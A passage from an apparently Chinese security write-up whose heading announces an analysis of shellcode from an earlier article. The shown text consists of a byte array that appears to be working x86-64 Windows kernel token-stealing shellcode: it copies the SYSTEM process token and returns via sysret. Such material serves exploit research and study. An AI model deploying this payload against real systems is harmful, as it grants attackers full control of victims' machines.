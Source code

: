 [![](assets/1706090578-08e0e07ba44edcb6be8220f5c52f7e55.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122132732-f1406cfe-b8e6-1.png)

### C. 分析上一篇的 shellcode

```plain
BYTE cmd[256] = {
    0x48, 0x31, 0xc0, 0x65, 0x48, 0x8b, 0x80, 0x88, 0x01, 0x00,
    0x00, 0x48, 0x8b, 0x80, 0xb8, 0x00, 0x00, 0x00, 0x49, 0x89,
    0xc1, 0x48, 0x8b, 0x80, 0x48, 0x04, 0x00, 0x00, 0x48, 0x8b,
    0x00, 0x48, 0x8b, 0x50, 0xf8, 0x49, 0x89, 0xc0, 0x48, 0x8b,
    0x00, 0x48, 0x83, 0xfa, 0x04, 0x75, 0xf0, 0x49, 0x8b, 0x50,
    0x70, 0x48, 0x83, 0xe2, 0xf8, 0x49, 0x8b, 0x89, 0xb8, 0x04,
    0x00, 0x00, 0x48, 0x83, 0xe1, 0x07, 0x48, 0x01, 0xca, 0x49,
    0x89, 0x91, 0xb8, 0x04, 0x00, 0x00, 0x65, 0x48, 0x8b, 0x04,
    0x25, 0x88, 0x01, 0x00, 0x00, 0x66, 0x8b, 0x88, 0xe4, 0x01,
    0x00, 0x00, 0x66, 0xff, 0xc1, 0x66, 0x89, 0x88, 0xe4, 0x01,
    0x00, 0x00, 0x48, 0x8b, 0x90, 0x90, 0x00, 0x00, 0x00, 0x48,
    0x8b, 0x8a, 0x68, 0x01, 0x00, 0x00, 0x4c, 0x8b, 0x9a, 0x78,
    0x01, 0x00, 0x00, 0x48, 0x8b, 0xa2, 0x80, 0x01, 0x00, 0x00,
    0x48, 0x8b, 0xaa, 0x58, 0x01, 0x00, 0x00, 0x31, 0xc0, 0x0f,
    0x01, 0xf8, 0x48, 0x0f, 0x07, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff
};
```

